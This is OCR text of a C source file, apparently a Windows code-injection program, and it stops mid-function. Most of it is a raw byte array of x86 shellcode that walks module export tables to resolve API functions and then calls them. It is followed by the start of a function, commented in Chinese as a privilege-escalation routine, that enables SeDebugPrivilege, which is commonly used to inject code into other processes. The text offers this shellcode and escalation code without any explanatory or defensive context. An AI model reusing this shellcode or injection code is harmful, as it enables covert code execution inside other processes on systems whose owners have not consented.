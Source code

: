 	0x19, 0x8B, 0x85, 0x6C, 0xFF, 0xFF, 0xFF, 0x0F, 0xB7, 0x08, 0x85, 0xC9, 0x75, 0x0C, 0xC7, 0x45,
	0xDC, 0x01, 0x00, 0x00, 0x00, 0xE9, 0xB1, 0x00, 0x00, 0x00, 0x8B, 0x85, 0x70, 0xFF, 0xFF, 0xFF,
	0x0F, 0xBE, 0x08, 0x83, 0xF9, 0x61, 0x7C, 0x22, 0x8B, 0x95, 0x70, 0xFF, 0xFF, 0xFF, 0x0F, 0xBE,
	0x02, 0x83, 0xF8, 0x7A, 0x7F, 0x14, 0x8B, 0x8D, 0x70, 0xFF, 0xFF, 0xFF, 0x0F, 0xBE, 0x11, 0x83,
	0xEA, 0x20, 0x89, 0x95, 0xF8, 0xFE, 0xFF, 0xFF, 0xEB, 0x0F, 0x8B, 0x85, 0x70, 0xFF, 0xFF, 0xFF,
	0x0F, 0xBE, 0x08, 0x89, 0x8D, 0xF8, 0xFE, 0xFF, 0xFF, 0x8B, 0x95, 0x6C, 0xFF, 0xFF, 0xFF, 0x0F,
	0xBE, 0x02, 0x83, 0xF8, 0x61, 0x7C, 0x22, 0x8B, 0x8D, 0x6C, 0xFF, 0xFF, 0xFF, 0x0F, 0xBE, 0x11,
	0x83, 0xFA, 0x7A, 0x7F, 0x14, 0x8B, 0x85, 0x6C, 0xFF, 0xFF, 0xFF, 0x0F, 0xBE, 0x08, 0x83, 0xE9,
	0x20, 0x89, 0x8D, 0xF4, 0xFE, 0xFF, 0xFF, 0xEB, 0x0F, 0x8B, 0x95, 0x6C, 0xFF, 0xFF, 0xFF, 0x0F,
	0xBE, 0x02, 0x89, 0x85, 0xF4, 0xFE, 0xFF, 0xFF, 0x8B, 0x8D, 0xF8, 0xFE, 0xFF, 0xFF, 0x3B, 0x8D,
	0xF4, 0xFE, 0xFF, 0xFF, 0x74, 0x02, 0xEB, 0x23, 0x8B, 0x85, 0x70, 0xFF, 0xFF, 0xFF, 0x83, 0xC0,
	0x02, 0x89, 0x85, 0x70, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x6C, 0xFF, 0xFF, 0xFF, 0x83, 0xC0, 0x02,
	0x89, 0x85, 0x6C, 0xFF, 0xFF, 0xFF, 0xE9, 0x1C, 0xFF, 0xFF, 0xFF, 0x83, 0x7D, 0xDC, 0x00, 0x74,
	0x0B, 0x8B, 0x45, 0xE0, 0x8B, 0x48, 0x18, 0x89, 0x4D, 0xFC, 0xEB, 0x14, 0x8B, 0x45, 0xE0, 0x8B,
	0x08, 0x89, 0x4D, 0xE0, 0x8B, 0x45, 0xE4, 0x3B, 0x45, 0xE0, 0x0F, 0x85, 0xD2, 0xFE, 0xFF, 0xFF,
	0x83, 0x7D, 0xFC, 0x00, 0x0F, 0x84, 0x92, 0x01, 0x00, 0x00, 0x8B, 0x45, 0xFC, 0x89, 0x85, 0x68,
	0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x68, 0xFF, 0xFF, 0xFF, 0x8B, 0x8D, 0x68, 0xFF, 0xFF, 0xFF, 0x03,
	0x48, 0x3C, 0x89, 0x8D, 0x64, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x68, 0xFF, 0xFF, 0xFF, 0x8B, 0x48,
	0x3C, 0x8B, 0x95, 0x68, 0xFF, 0xFF, 0xFF, 0x8D, 0x44, 0x0A, 0x04, 0x89, 0x85, 0x60, 0xFF, 0xFF,
	0xFF, 0x8B, 0x85, 0x60, 0xFF, 0xFF, 0xFF, 0x83, 0xC0, 0x14, 0x89, 0x85, 0x5C, 0xFF, 0xFF, 0xFF,
	0x8B, 0x85, 0x60, 0xFF, 0xFF, 0xFF, 0x0F, 0xB7, 0x48, 0x10, 0x03, 0x8D, 0x5C, 0xFF, 0xFF, 0xFF,
	0x89, 0x8D, 0x58, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x5C, 0xFF, 0xFF, 0xFF, 0x8B, 0x4D, 0xFC, 0x03,
	0x48, 0x60, 0x89, 0x8D, 0x54, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x54, 0xFF, 0xFF, 0xFF, 0x8B, 0x4D,
	0xFC, 0x03, 0x48, 0x1C, 0x89, 0x8D, 0x50, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x54, 0xFF, 0xFF, 0xFF,
	0x8B, 0x4D, 0xFC, 0x03, 0x48, 0x20, 0x89, 0x8D, 0x4C, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x54, 0xFF,
	0xFF, 0xFF, 0x8B, 0x4D, 0xFC, 0x03, 0x48, 0x24, 0x89, 0x8D, 0x48, 0xFF, 0xFF, 0xFF, 0xC7, 0x85,
	0x44, 0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x00, 0x00, 0xEB, 0x0F, 0x8B, 0x85, 0x44, 0xFF, 0xFF, 0xFF,
	0x83, 0xC0, 0x01, 0x89, 0x85, 0x44, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x54, 0xFF, 0xFF, 0xFF, 0x8B,
	0x8D, 0x44, 0xFF, 0xFF, 0xFF, 0x3B, 0x48, 0x18, 0x0F, 0x8D, 0xBC, 0x00, 0x00, 0x00, 0x8D, 0x45,
	0xA4, 0x89, 0x85, 0x40, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x44, 0xFF, 0xFF, 0xFF, 0x8B, 0x8D, 0x4C,
	0xFF, 0xFF, 0xFF, 0x8B, 0x55, 0xFC, 0x03, 0x14, 0x81, 0x89, 0x95, 0x3C, 0xFF, 0xFF, 0xFF, 0xC7,
	0x45, 0xDC, 0x00, 0x00, 0x00, 0x00, 0xB8, 0x01, 0x00, 0x00, 0x00, 0x85, 0xC0, 0x74, 0x5B, 0x8B,
	0x85, 0x40, 0xFF, 0xFF, 0xFF, 0x0F, 0xBE, 0x08, 0x85, 0xC9, 0x75, 0x16, 0x8B, 0x85, 0x3C, 0xFF,
	0xFF, 0xFF, 0x0F, 0xBE, 0x08, 0x85, 0xC9, 0x75, 0x09, 0xC7, 0x45, 0xDC, 0x01, 0x00, 0x00, 0x00,
	0xEB, 0x38, 0x8B, 0x85, 0x40, 0xFF, 0xFF, 0xFF, 0x0F, 0xBE, 0x08, 0x8B, 0x95, 0x3C, 0xFF, 0xFF,
	0xFF, 0x0F, 0xBE, 0x02, 0x3B, 0xC8, 0x74, 0x02, 0xEB, 0x20, 0x8B, 0x85, 0x40, 0xFF, 0xFF, 0xFF,
	0x83, 0xC0, 0x01, 0x89, 0x85, 0x40, 0xFF, 0xFF, 0xFF, 0x8B, 0x85, 0x3C, 0xFF, 0xFF, 0xFF, 0x83,
	0xC0, 0x01, 0x89, 0x85, 0x3C, 0xFF, 0xFF, 0xFF, 0xEB, 0x9C, 0x83, 0x7D, 0xDC, 0x00, 0x74, 0x25,
	0x8B, 0x85, 0x44, 0xFF, 0xFF, 0xFF, 0x8B, 0x8D, 0x48, 0xFF, 0xFF, 0xFF, 0x0F, 0xB7, 0x14, 0x41,
	0x8B, 0x85, 0x50, 0xFF, 0xFF, 0xFF, 0x8B, 0x0C, 0x90, 0x8B, 0x95, 0x5C, 0xFF, 0xFF, 0xFF, 0x03,
	0x4A, 0x1C, 0x89, 0x4D, 0xF4, 0xE9, 0x20, 0xFF, 0xFF, 0xFF, 0xEB, 0x07, 0xB8, 0x01, 0x00, 0x00,
	0x00, 0xEB, 0x38, 0x8D, 0x45, 0x94, 0x50, 0x8B, 0x4D, 0xFC, 0x51, 0xFF, 0x55, 0xF4, 0x89, 0x45,
	0xF0, 0x8D, 0x45, 0xB4, 0x50, 0xFF, 0x55, 0xF0, 0x89, 0x45, 0xF8, 0x8D, 0x45, 0x88, 0x50, 0x8B,
	0x4D, 0xF8, 0x51, 0xFF, 0x55, 0xF4, 0x89, 0x45, 0xEC, 0x6A, 0x00, 0x6A, 0x00, 0x8D, 0x85, 0x78,
	0xFF, 0xFF, 0xFF, 0x50, 0x6A, 0x00, 0xFF, 0x55, 0xEC, 0x33, 0xC0, 0x5F, 0x5E, 0x5B, 0x8B, 0xE5,
	0x5D, 0xC2, 0x04, 0x00}; // 0x4F4

// 提权函数：提升为DEBUG权限
BOOL EnableDebugPrivilege()
{
	HANDLE hToken;
	BOOL fOk=FALSE;
	if(OpenProcessToken(GetCurrentProcess(),TOKEN_ADJUST_PRIVILEGES,&hToken))
	{
		TOKEN_PRIVILEGES tp;
		tp.PrivilegeCount=1;
		LookupPrivilegeValue(NULL,SE_DEBUG_NAME,&tp.Privileges[0].Luid);
		